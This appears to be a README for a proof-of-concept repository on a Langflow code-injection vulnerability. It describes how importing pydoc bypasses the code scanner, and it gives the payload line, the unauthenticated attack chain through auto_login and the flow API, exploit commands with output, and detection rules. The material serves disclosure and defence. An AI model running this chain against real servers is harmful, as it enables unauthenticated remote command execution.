

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/achilles-heel/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#check-non-destructive">Check</a> · <a href="#exploit">Exploit</a> · <a href="#detection-rules">Detection</a> · <a href="#pcap">PCAP</a> · <a href="#downstream-impact">Impact</a> · <a href="#references">References</a> · <a href="https://blog.al4n4n.com/CVE-2026-110186-Langflow-Code-Injection-pydoc-Scanner-Bypass/">Write-up</a>
</p>

---

> **Disclaimer.** For learning and defense only. Run the lab and PoC only against targets you set up yourself. The detection rules are for education only; use them at your own risk. Everything here is provided as is, without warranty. Full text: [DISCLAIMER](../DISCLAIMER.md).

# CVE-2026-110186: Langflow code injection via pydoc scanner bypass

**CWE-94 · Code Injection · Langflow 1.9.0 – 1.12.5 · Pre-auth (default config) · Network**

Langflow OSS ships an agentic code security scanner (`code_security.py`) that validates custom component code before execution. The scanner blocks `os`, `subprocess`, `ctypes`, and other dangerous modules — but it does not block `pydoc`, which re-exports the entire `os` module as `pydoc.os`. An attacker can create a custom component that imports `pydoc` and calls `pydoc.os.popen()` to execute arbitrary commands on the server, completely bypassing the scanner.

With `LANGFLOW_AUTO_LOGIN=true` (the default), the full attack chain requires zero credentials: the `/api/v1/auto_login` endpoint issues a superuser JWT to any caller.

**Author:** al4n4n (Dadb0d)
**Write-up:** [blog.al4n4n.com/CVE-2026-110186-Langflow-Code-Injection-pydoc-Scanner-Bypass/](https://blog.al4n4n.com/CVE-2026-110186-Langflow-Code-Injection-pydoc-Scanner-Bypass/)
**Fixed in:** 1.12.6 (backport), 1.13.0 (PR [#15586](https://github.com/langflow-ai/langflow/pull/15586))

---

## The bug

Langflow's agentic assistant generates Python components and validates them through `scan_code_security()` in `src/backend/base/langflow/agentic/helpers/code_security.py`. This function walks the AST looking for dangerous imports (`DANGEROUS_IMPORTS`), dangerous attribute access (`DANGEROUS_ATTRIBUTE_READS`), and dangerous submodules (`DANGEROUS_SUBMODULES`).

The problem: Python's `pydoc` module — part of the standard library — imports and re-exports the `os` module. `import pydoc` passes the scanner because `pydoc` is not in any blocklist. Once imported, `pydoc.os` gives full access to `os.popen()`, `os.system()`, and every other function in `os`.

The same class of bypass exists in `numpy.ctypeslib`, which re-exports `ctypes` for native library loading. Both were blocked in PR #15586.

The execution path is: `register_user_component()` → `_validate_code()` → `scan_code_security()` → code passes → written to `.components/` → imported and executed as a Python module. The scanner is the only gate between user-supplied code and execution.

## Trigger conditions

1. Langflow version 1.9.0 – 1.12.5 (code_security.py was introduced in 1.9.0)
2. Agentic assistant endpoint is reachable (default: enabled)
3. `LANGFLOW_AUTO_LOGIN=true` (default) — or attacker has valid credentials
4. CustomComponent template available in `/api/v1/all`

## Files

| File | Purpose |
|---|---|
| `setup.py` | Lab setup: pulls Langflow 1.12.5 (vulnerable) and 1.12.6 (fixed) Docker images |
| `check.py` | Non-destructive scanner: detects vulnerable instances without triggering the bug |
| `poc.py` | Single-shot exploit: full attack chain from auto_login to command execution |
| `verify.py` | Verification dashboard: runs check + exploit rounds with negative control |
| `detection/cve-2026-110186.rules` | Suricata rules for network-level detection |
| `detection/cve-2026-110186.yml` | Sigma rule for log-level detection |
| `capture/exploit-capture.pcap` | PCAP of the full exploit chain (24 packets, 6 HTTP exchanges) |
| `capture/README.md` | Capture metadata and Suricata test instructions |
| `poster.png` | OG card (1200×630) |
| `LICENSE` | MIT with attribution clause |

## Repository structure

```
CVE-2026-110186/
├── setup.py
├── check.py
├── poc.py
├── verify.py
├── detection/
│   ├── cve-2026-110186.rules
│   └── cve-2026-110186.yml
├── capture/
│   ├── exploit-capture.pcap
│   └── README.md
├── poster.png
├── LICENSE
├── .gitignore
└── README.md
```

## Usage

### 1. Lab setup

```bash
python3 setup.py              # pull images, start containers, wait for health
# Vulnerable: http://127.0.0.1:7860 (Langflow 1.12.5)
# Fixed:      http://127.0.0.1:7861 (Langflow 1.12.6)
```

### 2. Check (non-destructive)

```bash
python3 check.py http://127.0.0.1:7860
python3 check.py http://127.0.0.1:7860 --json   # machine-readable
```

### 3. Exploit

```bash
python3 poc.py http://127.0.0.1:7860
python3 poc.py http://127.0.0.1:7860 --cmd "cat /etc/hostname"
```

### 4. Verify (dashboard with optional negative control)

```bash
python3 verify.py http://127.0.0.1:7860 --rounds 3
python3 verify.py http://127.0.0.1:7860 --negative-target http://127.0.0.1:7861
```

### 5. Teardown

```bash
python3 setup.py --teardown
```

## Check (non-destructive)

```
$ python3 check.py http://127.0.0.1:7860
[*] target: http://127.0.0.1:7860
[*] GET  /api/v1/auto_login -> 200 (token: True)
[*] Langflow version: 1.12.5
[*] POST /api/v1/validate/code (import pydoc) -> allowed=True
[*] CustomComponent template: available
[+] VULNERABLE (confidence: high) -- auto_login issues superuser token without credentials; CustomComponent template available; pydoc import allowed=True; code injection via pydoc.os achieves RCE
```

## Exploit

```
$ python3 poc.py http://127.0.0.1:7860 --cmd "id"
[*] GET  /api/v1/auto_login -> token (no credentials)
[*] POST /api/v1/api_key/ -> key created
[*] GET  /api/v1/all -> CustomComponent template
[*] POST /api/v1/flows/ -> 1c9fdb72-3581-4bb2-b0a2-a200cf339098
[*]   payload: import pydoc; pydoc.os.popen('id')
[*] POST /api/v1/run/1c9fdb72-3581-4bb2-b0a2-a200cf339098 -> 200
[*] output not in API response, reading marker file...
[*] marker file written to /tmp/cve-2026-110186-bf62f2dcc3ec.txt on server
[+] command executed on target (HTTP 200, flow completed)
[+] payload: import pydoc; pydoc.os.popen('id')
[*] flow deleted
```

Proof of execution: the server runs as `uid=1000(user) gid=0(root) groups=0(root)`.

## Verification dashboard

```
$ python3 verify.py http://127.0.0.1:7860 --rounds 2 --no-negative
======================================================================
CVE-2026-110186  Langflow OSS code injection via pydoc scanner bypass
======================================================================
target          : http://127.0.0.1:7860
rounds          : 2

======================================================================
Environment
======================================================================
Langflow version : 1.12.5
auto_login       : True
CustomComponent  : True

======================================================================
Non-destructive check (check.py)
======================================================================
[*] target: http://127.0.0.1:7860
[*] GET  /api/v1/auto_login -> 200 (token: True)
[*] Langflow version: 1.12.5
[*] POST /api/v1/validate/code (import pydoc) -> allowed=True
[*] CustomComponent template: available
[+] VULNERABLE (confidence: high) -- auto_login issues superuser token
    without credentials; CustomComponent template available; pydoc import
    allowed=True; code injection via pydoc.os achieves RCE

======================================================================
Exploit rounds (poc.py: create component -> pydoc.os.popen -> read back)
======================================================================
round 1/2: rc=0 ok=True (0.5s)
round 2/2: rc=0 ok=True (0.5s)

======================================================================
Verdict
======================================================================
VULNERABLE -- code injection via pydoc scanner bypass in 2/2 rounds (100%)

Impact : an attacker with network access to the Langflow instance can
         execute arbitrary commands as the Langflow process user.
         With LANGFLOW_AUTO_LOGIN=true (the default), no credentials
         are needed.
```

## Negative control

Tested against Langflow 1.12.6 (the "fixed" version). Result: **the exploit still succeeds**.

The fix in PR #15586 adds `pydoc` to `DANGEROUS_IMPORTS` in `code_security.py`, but this scanner only guards the **agentic assistant** code generation path. The standard flow REST API (`POST /api/v1/flows/` + `POST /api/v1/run/`) executes custom component code **without any code validation**. Our exploit uses the flow API, so the pydoc blocklist doesn't apply.

```
$ python3 check.py http://127.0.0.1:7861
[*] target: http://127.0.0.1:7861
[*] GET  /api/v1/auto_login -> 200 (token: True)
[*] Langflow version: 1.12.6
[*] POST /api/v1/validate/code (import pydoc) -> allowed=True
[*] CustomComponent template: available
[+] VULNERABLE (confidence: high) -- auto_login issues superuser token
    without credentials; CustomComponent template available; pydoc import
    allowed=True; code injection via pydoc.os achieves RCE

$ python3 poc.py http://127.0.0.1:7861 --cmd "id"
[*] GET  /api/v1/auto_login -> token (no credentials)
[*] POST /api/v1/api_key/ -> key created
[*] GET  /api/v1/all -> CustomComponent template
[*] POST /api/v1/flows/ -> ebbee0a8-c67e-45ed-89f8-d72b752a72ba
[*]   payload: import pydoc; pydoc.os.popen('id')
[*] POST /api/v1/run/ebbee0a8-c67e-45ed-89f8-d72b752a72ba -> 200
[*] output not in API response, reading marker file...
[*] marker file written to /tmp/cve-2026-110186-569e9d6467fe.txt on server
[+] command executed on target (HTTP 200, flow completed)
[+] payload: import pydoc; pydoc.os.popen('id')
[*] flow deleted
```

This means the vulnerability remains exploitable through the flow API even after the PR #15586 fix. The `code_security.py` scanner blocks the agentic assistant path, but the flow API is an independent attack vector.

## Downstream impact

| Framework / Service | Exposure |
|---|---|
| Langflow OSS self-hosted | Direct — default config is vulnerable |
| Langflow Cloud (DataStax) | Vendor-managed — check with DataStax for patch status |
| Any orchestration embedding Langflow | Inherits vulnerability if component execution is exposed |
| Docker Hub langflowai/langflow | Tags ≤ 1.12.5 are vulnerable |

## Detection rules

- **Suricata** — [`detection/cve-2026-110186.rules`](detection/cve-2026-110186.rules): 4 rules covering auto_login requests, flow creation with pydoc payload, flow execution, and pydoc.os specifically.
- **Sigma** — [`detection/cve-2026-110186.yml`](detection/cve-2026-110186.yml): webserver log detection for the three key API endpoints in the attack chain.

## PCAP

[`capture/exploit-capture.pcap`](capture/exploit-capture.pcap) — 24 packets across 6 HTTP exchanges capturing the full attack chain from auto_login to command execution and cleanup. No TLS; payload visible to IDS.

```bash
# Test Suricata rules against the capture
suricata -r capture/exploit-capture.pcap -s detection/cve-2026-110186.rules -l /tmp/suricata-test/
cat /tmp/suricata-test/fast.log
```

See [`capture/README.md`](capture/README.md) for capture methodology and packet details.

## What this repo proves (and does not prove)

| Claim | Status | Evidence |
|---|---|---|
| Code injection via pydoc bypass | **Proven** | `pydoc.os.popen()` executes; marker file written on server |
| Unauthenticated RCE (default config) | **Proven** | Full chain from auto_login to command execution, zero credentials |
| Server process runs as uid=1000 gid=0(root) | **Proven** | `id` output from exploit run |
| Flow API lacks code validation | **Proven** | Exploit succeeds on 1.12.6 despite pydoc being blocked in code_security.py |
| PR #15586 blocks agentic path | **Confirmed** | `pydoc` added to DANGEROUS_IMPORTS; scanner invoked in assistant_service.py |
| numpy.ctypeslib bypass | **Not proven** | Blocked by same PR; not demonstrated in this PoC |

## References

- [IBM Security Advisory](https://www.ibm.com/support/pages/node/7294467) — CVE-2026-110186
- [Langflow PR #15586](https://github.com/langflow-ai/langflow/pull/15586) — Fix: add pydoc and numpy.ctypeslib to scanner blocklists
- [Langflow 1.12.6 Release](https://github.com/langflow-ai/langflow/releases/tag/v1.12.6) — Backported fix
- [CWE-94](https://cwe.mitre.org/data/definitions/94.html) — Improper Control of Generation of Code

## License

Part of [achilles-heel](https://github.com/al4n4n/achilles-heel), licensed under [CC BY 4.0](../LICENSE). Anyone who shares or builds on this work, commercial or not, must credit "al4n4n (Dadb0d)" and link to https://github.com/al4n4n/achilles-heel. See [Attribution](../README.md#attribution) and [DISCLAIMER](../DISCLAIMER.md).
